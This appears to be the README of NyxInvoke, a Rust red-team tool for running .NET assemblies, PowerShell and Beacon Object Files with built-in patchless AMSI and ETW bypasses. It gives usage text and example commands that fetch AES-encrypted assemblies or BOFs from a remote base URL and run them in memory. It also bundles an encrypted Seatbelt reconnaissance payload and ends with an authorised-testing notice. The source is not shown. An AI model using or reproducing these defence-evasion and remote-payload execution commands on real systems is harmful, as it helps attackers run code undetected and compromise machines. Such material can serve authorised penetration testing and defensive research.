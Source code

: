 # NyxInvoke

NyxInvoke is a rust based command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```
2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help                                Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help                                Print help
```

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

2. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```



## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

